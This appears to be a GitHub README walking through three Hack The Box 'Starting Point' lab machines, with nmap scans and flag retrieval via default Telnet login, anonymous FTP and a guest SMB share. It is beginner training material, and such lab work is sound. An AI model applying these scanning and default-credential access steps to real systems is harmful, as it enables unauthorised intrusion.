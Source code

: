 # HTB Starting Point Machines

Documented walkthroughs for the "Starting Point" series on Hack The Box.

---

## 🐱 Meow
**Protocol:** Telnet  
**IP Address:** 10.129.1.17  
**Summary:** Discovered open Telnet port with Nmap. Used default login to access the system and read the flag.

### 🔍 Enumeration
```bash
ping 10.129.1.17
nmap 10.129.1.17
```
📸 ![](../HTB_Academy/screenshots/meow_ping_nmap_results.png)

### 💻 Exploitation
```bash
telnet 10.129.1.17
```
📸 ![](../HTB_Academy/screenshots/meow_telnet_success.png)

### 🏁 Flag
```bash
cat flag.txt
```
📸 ![](../HTB_Academy/screenshots/meow_explored_flag_capture.png)

### ✅ Pwned!
📸 ![](../HTB_Academy/screenshots/meow_pwned.png)

---

## 🦌 Fawn
**Protocol:** FTP  
**IP Address:** 10.129.75.79  
**Summary:** Anonymous FTP login allowed access to `flag.txt`.

### 🔍 Enumeration
```bash
ping 10.129.75.79
nmap 10.129.75.79
```
📸 ![](../HTB_Academy/screenshots/fawn_ping_nmap_results.png)

### 💻 Exploitation
```bash
ftp 10.129.75.79
# login as anonymous
get flag.txt
```
📸 ![](../HTB_Academy/screenshots/fawn_ftp_success_flag_located.png)  
📸 ![](../HTB_Academy/screenshots/fawn_get_flag_catpured.png)

### ✅ Pwned!
📸 ![](../HTB_Academy/screenshots/fawn_pwned.png)

---

## 💃 Dancing
**Protocol:** SMB  
**IP Address:** 10.129.1.12  
**Summary:** Found readable share via SMB. Navigated directories using `smbclient` and retrieved flag.

### 🔍 Enumeration
```bash
nmap 10.129.1.12
smbclient -L 10.129.1.12
```
📸 ![](../HTB_Academy/screenshots/dancing_nmap_results.png)  
📸 ![](../HTB_Academy/screenshots/dancing_smb_results.png)

### 💻 Exploitation
```bash
smbclient //10.129.1.12/WorkShares -U guest
cd James.P
get flag.txt
```
📸 ![](../HTB_Academy/screenshots/dancing_flag_located.png)  
📸 ![](../HTB_Academy/screenshots/dancing_flag_catpure.png)

### ✅ Pwned!
📸 ![](../HTB_Academy/screenshots/dancing_pwned.png)
